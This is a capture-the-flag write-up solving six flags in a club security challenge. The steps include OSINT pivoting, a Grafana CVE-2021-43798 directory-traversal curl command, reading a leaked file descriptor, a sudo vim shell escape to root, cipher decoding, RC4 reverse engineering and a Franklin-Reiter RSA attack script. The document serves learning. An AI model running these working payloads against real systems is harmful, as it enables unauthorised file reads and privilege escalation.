


# WriteUp

## Flag 1: Web Enumeration and LFI Exploitation

### Step 1: Initial Reconnaissance

I began by exploring the site `infosec.pclub.in`. Checking common entry points, I examined `robots.txt` and `sitemap.xml`, nothing juicy found there. There were 3 blogs live on the website.

- Observation: One of the blog revealed hacker's real name `Kalpit Lal Rama` which I used as a pivot point.
- Action: Visited google to search for the name. It lead me to a linkedIn profile, which further lead me to a [x.com] account and subsequently their [reddit account](https://www.reddit.com/user/Virtual-Copy-637/).

### Step 2: Reddit Investigation

The Reddit profile had some posts, 2 being latest and another 2 around 8 months old. One of the latest post had an image. Suspecting hidden data in the image, I analysed the image using tools like `steghide`, `binwalk`, `aperisolve` but found no hidden data. Even the posts didn't provide clear leads so I moved on to other avenues.
- The reddit posts lead me to a dead end for the time being.

### Step 3: Web Enumeration with `ffuf`
I performed directory enumeration using [`ffuf`](https://github.com/ffuf/ffuf) to uncove hidden paths on `infosec.pclub.in`. Despite extensive scanning, no useful directories or files were found.
 ```bash
 ffuf -u https://infosec.pclub.in/FUZZ -w directory-list-lowercase-2.3-medium.txt
 ```

### Step 4: Network Analysis
I analysed network traffic while interacting with the website, inspecting CDN-hosted javascript files (e.g. `jekyll-search.js`, `common.js`) for clues. No anomalies were found.

### Step 5: Blog Post Analysis and Grafana Discovery
Returning to the blog posts, in one of the post, I noticed a mention of a [Grafana](https://grafana.com/) instance running at `http://13.126.50.182:3000`. This was a promising lead.
- **Action**: Performed a `nmap` scan on the IP (`nmap -sV -sC 13.126.50.182`) to get services running on server. The scan revealed an OpenSSH 9.6 service on `port 22`.



- Observation: On searching google regarding OpenSSH version, I found a related CVE.

### Step 6: Exploring OpenSSH Vulnerability

Researching openssh 9.6p1 running with `Ubuntu 3ubuntu13.11`, I identified [`CVE-2024-6387`](https://nvd.nist.gov/vuln/detail/CVE-2024-6387) (**regreSSHion**), a critical vulnerability. I attempted exploiting it using a python script ([`CVE-2024-6387.py`](https://github.com/Karmakstylez/CVE-2024-6387)), via [Metasploit](https://www.metasploit.com/), but it, including more exploits scripts I tried, failed.
Further research included [Qualys' advisory](https://www.qualys.com/2024/07/01/cve-2024-6387/regresshion.txt) and a youtube analysis by `Low Level`, confirmed that no reliable PoC existed for this vulnerability, making it a dead end.
- Dead End: The OpenSSH exploit was not viable due to lack of a working PoC (due to the fact that on average it will take long time to exploit the race condition).

### Step 7: Grafana and Further Exploration

I explored the Grafana instance, was able to login using default credentials (`admin:admin`) for some time. I didn't find any useful information there, dashboards, data sources, alerts -- all were empty.
Explored grafana metrics (`http://13.126.50.182:3000/metrics`), which exposed Grafana internal metrics but contained no useful data.

### Step 8: Grafana version and LFI Exploitation

After someone changed password and doubt clarified about login issue, I had to repivot. Suspecting a vulnerability in Grafana, I checked `/login` page, which revealed Grafana `version 8.3.0`.


Searching online, I found a know [directory traversal and Local File inclusion (LFI) vulnerability](https://www.exploit-db.com/exploits/50581) (CVE-2021-43798). Using this exploit I accessed server files.
- Key findings: I accessed `/etc/passwd`, though nothing juicy was found there. I also accessed `grafana.db` but even that didn't reveal any hidden information.

### Step 9: Hint release and Flag Discovery
After some days, a hint was released that pointed to some `temporary location` on server. After some tries, I got the flag file located at `/tmp/flag` on the server.
```bash
curl --path-as-is http://13.126.50.182:3000/public/plugins/prometheus/../../../../../../../../../../../tmp/flag
```
#### Flag 1: `PClub{Easy LFI}`


## Flag 2: File Descriptor Exploitation

### Step 10: New IPs and shell access

The first flag provided two new IPs: `13.235.21.137:4657` and `13.235.21.137:4729`. An Nmap service scan indicated a shell service on both ports. Using `netcat`, I connected and obtained a shell.
```bash
nc 13.235.21.137 4657
```

### Step 11: Source code and Binary Analysis
In the shell, I found two files: a binary and its .c source code. The source code revealed that the binary opened `/root/flag`, set the user ID to a non-root user, and spawned a shell without closing the file descriptor for `/root/flag`.

```c
#include <fcntl.h>
#include <unistd.h>

int main () {
    int fd = open ("/root/flag", 0);

    // Dropping root previliges
    // definitely not forgetting anything
    setuid (getuid ());

    char* args[] = { "sh", 0 };
    execvp ("/bin/sh", args);
    return 0;
}
```

- Action: Attempted to access the [file descriptor](https://en.wikipedia.org/wiki/File_descriptor) using `cat /proc/self/fd/3`, but received a permission denied error. Reading further, I used `cat <&3` to read the open file descriptor, successfully retrieving the flag.
#### Flag 2: `PClub{4lw4ys_cl05e_y0ur_fil3s}`


## Flag 3: Sudoers file

Tried 2nd port and shell
```bash
nc 13.235.21.137 4729
```
I saw current user, permissions level, files I can see etc on the server. Found something in output of `sudo -l`. Current user, `ctf`, was able to run `/bin/vim` as sudo. This can be a foot hold since `vim` has a built in `:shell` command to spawn a shell inside editor.

```bash
Matching Defaults entries for ctf on 1d6089cf076a:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User ctf may run the following commands on 1d6089cf076a:
    (ALL) NOPASSWD: /bin/vim
```
Doing,
```bash
/bin/vim
:shell
```
gave root access on the machine. Searched for flag, found flag 4 at `/root/flag`
#### Flag 3: `PClub{y0u_ar3_in_7he_sudoers_th1s_1nc1d3nt_will_n0t_be_rep0r7ed}`


## Flag 4: Reddit and Cryptographic Decoding

### Step 12: Reddit posts revisited
After hints were released, I revisited reddit posts. Where there were random numbers in [8 months old post](https://www.reddit.com/user/Virtual-Copy-637/comments/1fuyetj/i_like_these_numbers_particularly/).
```
12668958
29326
23627944634268
3108
8
523948
01050036027972
87177902339084610664
```

### Step 13: Cryptographic Decodings
Hints pointed to base\<X> encodings. So I used [dcode.fr's cipher identifier](https://www.dcode.fr/identification-chiffrement). That suggested cipher was `Chiffee Base 36`. On decoding it, I got 
```
7JJFI MMM 8DIJ06H0C 2EC 8 B8A4 0DEDOC8JO IEC4J8C4IRSRS
```
Using same identifier didn't reveal anything more though it hinted at some ROT shifting. On Further analysis using [CyberChef](https://gchq.github.io/CyberChef/), after doing ROT13 bruteforce (Shift 10), found a string which looked like some link to a websiite.
```
7TTPS WWW 8NST06R0M 2OM 8 L8K4 0NONYM8TY SOM4T8M4SBCBC
```
After substituting 0 with A, 1 with B and so on, and last's `bcbc` with `1212`, this pointed to an [instagram user account](https://www.instagram.com/i_like_anonymity_sometimes1212/), which was hacker's instagram account.

### Step 14: Exploring Instagram
Found reference to [a wikipedia article's version history](https://en.wikipedia.org/w/index.php?title=Thomas_Keller_Medal&action=history) in one of Instagram Highlights posted on 29th September 2024.

Found flag in version history.

#### Flag 4: `PClub{idk_how_this_got_typed}`

## Flag 5: Reverse Engineering and RC4 Encryption

### Step 15: Binary Analysis
A binary file was provided via a link. Using IDA Pro, I decompiled it to pseudocode and identified an RC4 stream cipher. The `.text` section of main_encrypt contained the key `super_secret_key`, and the `.rodata` section had the ciphertext `6b50928708d30d85c1dbe9fe69101897f88908c907452a44a8`.

### Step 16: Decryption
Using an [online RC4 decoder](https://cryptii.com/pipes/rc4-encryption), I decrypted the ciphertext with the key, yielding the flag 5.

#### Flag 5: `PClub{Nice_job_reversing}`

## Flag 6: 
Got into challenge using 
```bash
nc 3.109.250.1 5000
```
The server first had a PoW (Proof of Work) like
> Find a string such that SHA-256 hash of "Fwxyhv" concatenated with your input starts with the the string "23450".

This was easily solved by coding a bruteforce script

```python 
import hashlib

base = "Fwxyhv"

target_prefix = "23450"

def find_matching_suffix(base, target_prefix, max_attempts=10**7):
    for i in range(max_attempts):
        candidate = base + str(i)
        hash_result = hashlib.sha256(candidate.encode()).hexdigest()
        if hash_result.startswith(target_prefix):
            return str(i), hash_result
    return None, None

suffix, matching_hash = find_matching_suffix(base, target_prefix)
print(suffix, matching_hash)
```
Once this was passed, I got access to the actual challenge interface, which gave me 3 options:
1. View part1.py
2. View part2.py
3. Encrypt a padded message

Option 3 let me supply a padding and gave back

Ciphertext : $(m + pad)^e \mod n$

This was attack surface foor polynomial GCD attack in RSA with small exponent.

Writing a small script did the job.

```python 
from hashlib import sha256
from Crypto.Util.number import long_to_bytes
from sympy import symbols, Poly, gcd, div
from sympy import mod_inverse
import gmpy2

n = 14396996159484935402263047209515591837894561722637754977347763291309469526016654395830492184143403002427443166570907471043582253894111865750271913633299048451358715658977476227178780148897263675642352138870807635707152157265878868071156485130358955177740064371871540690429629376357175922832896148083749207758979817755416407370097422607094461094843394269367378266138773192483991105300836363325123386715060503986689730021660330714714902229408932007554015453954776067969393448087791858215409782993160037667631348054614116602892854843905177862655435919982681383061296616680660139810652785553456917773787057033714145613047
e = 3

# Ciphertexts I got using padding 3, 5 respectively
c1 = 13437526472436443794216183194447347160957723113505232847990436182519273251875590648580447891303251007959750820886734411488938131641647831116180814659729783463730111413914549203886101764143892923274363590584391859137579502389718352786716328463333953071949802008560270932631410988482335200725063182585513200160085863802687939017092363926614804627345011457310497254550399853796809193901011918751466212472802462023978630397133887278670883143783088860269470141455390319356889967835836522743986681869509799568973310459951228846422319192839517288308520828395788468838083637668096278965183136280815704928002515926444541349948
c2 = 13437526472436443794216183194447347160957723113505232847991348317174273033344186477801227694035846779464567245531602630837230836313444997080882712031917187986261064214894902641543861131657795481384464068406924538065008181803844295195120706731437296328819713333172846564060840678533429797768756723550050371911309487130014123019642485329940680097769960384499277637236095970990778904340841326620001052593422648047980896374121321785093768505994650148988874821887885643621245852123807094567282325377918272841869569673681581723536206709450124883077496403242975887478614178619330707258682877439849106689616571925468584517873

pad1 = int(sha256(b"3").hexdigest(), 16)
pad2 = int(sha256(b"5").hexdigest(), 16)

x = symbols('x')

# Define polynomials f and g modulo n
f = Poly((x + pad1)**e - c1, x, modulus=n)
g = Poly((x + pad2)**e - c2, x, modulus=n)

# GCD of the polynomials mod n
h = gcd(f, g)

# Try to extract root if degree 1
if h.degree() == 1:
    const_coeff = h.all_coeffs()[-1]  # constant term
    m = (-const_coeff) % n
    flag = long_to_bytes(int(m))
    print(flag)
else:
    print(f"GCD degree is {h.degree()} - try different ciphertext pairs")

```

#### Flag 6: `PClub{Franklin_Reiter_is_cool}`

